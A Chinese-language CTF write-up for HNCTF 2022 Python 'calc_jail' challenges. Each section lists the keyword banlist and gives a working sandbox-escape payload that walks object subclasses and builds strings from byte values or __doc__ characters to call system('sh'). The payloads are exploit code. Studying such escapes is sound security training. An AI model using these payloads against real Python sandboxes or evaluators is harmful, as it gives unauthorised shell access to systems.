 ```python
().__class__.__base__.__subclasses__()[-4].__init__.__globals__[bytes([115,121,115,116,101,109]).decode()](bytes([115,104]).decode())
```

## [HNCTF 2022 WEEK2]calc_jail_beginner_level4.0.5(JAIL)

BANLIST：

```
__loader__ __import__ compile eval exec chr input locals globals "\'`
```

同上。

## [HNCTF 2022 WEEK2]calc_jail_beginner_level4.1(JAIL)

BANLIST：

```
__loader__ __import__ compile eval exec chr input locals globals bytes "\'`
```

`bytes`的子类索引为6。

payload1：

```python
().__class__.__base__.__subclasses__()[-4].__init__.__globals__[().__class__.__base__.__subclasses__()[6]([115,121,115,116,101,109]).decode()](().__class__.__base__.__subclasses__()[6]([115,104]).decode())
```

## [HNCTF 2022 WEEK2]calc_jail_beginner_level4.3(JAIL)

BANLIST：

```
__loader__ __import__ compile eval exec chr input locals globals bytes type open "\'`+
```

### 法一

同上

### 法二

> `__doc__`：返回默认类的帮助文档。

从`__doc__`中一个字符一个字符地找，`+`被禁，用`join()`代替。

payload1：

```python
().__class__.__base__.__subclasses__()[-4].__init__.__globals__[str().join([().__doc__[19],().__doc__[86],().__doc__[19],().__doc__[4],().__doc__[17],().__doc__[10]])](str().join([().__doc__[19],().__doc__[56]]))
```
